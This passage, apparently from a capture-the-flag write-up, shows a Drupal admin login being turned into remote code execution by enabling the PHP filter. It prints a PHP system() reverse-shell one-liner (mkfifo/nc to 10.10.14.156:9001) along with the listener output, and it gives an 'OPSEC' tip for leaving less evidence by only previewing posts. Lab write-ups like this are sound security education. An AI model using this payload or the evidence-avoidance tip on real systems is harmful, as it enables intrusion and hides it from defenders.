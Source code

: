 ```
Please let us know when the portal is ready.

Kind Regards,

IT department
------------------------------------------
Running pid: 16190      Cipher: AES-256-CFB
Running pid: 16198      Cipher: AES-256-CFB1
...[snip]...

```

## RCE Via Drupal - Shell as www-data

### Prep

The password from the file works to log in as admin to the Drupal interface:

![1543515525870](https://0xdfimages.gitlab.io/img/1543515525870.png)

![1543515561515](https://0xdfimages.gitlab.io/img/1543515561515.png)

Now, with access, I’ll change the settings to allow PHP execution in posts. Under modules, I’ll check “PHP filter”:

![1531877405108](https://0xdfimages.gitlab.io/img/1531877405108.png)

### PHP RCE –> Shell

I’ll create a new article by clicking “Content” -> “Add content” -> “Article”. Because I’ve enabled the PHP filter, one option for “Test format” is “php”, which I’ll select, enabling me to add php code. I’ll test it by creating an article that contains `<?php phpinfo(); ?>`. On hitting “Preview”:

![1531824863447](https://0xdfimages.gitlab.io/img/1531824863447.png)

So get a shell with `<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.156 9001 >/tmp/f'); ?>`. On preview:

```

root@kali# nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.156] from (UNKNOWN) [10.10.10.102] 43068
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
**OPSEC Note:** You don’t need to actually publish any changes in most CMS systems to get your execution. If there’s a preview option, it will show the code to just you, and still run it. Then, you can leave the post and not publish, leaving less evidence behind.
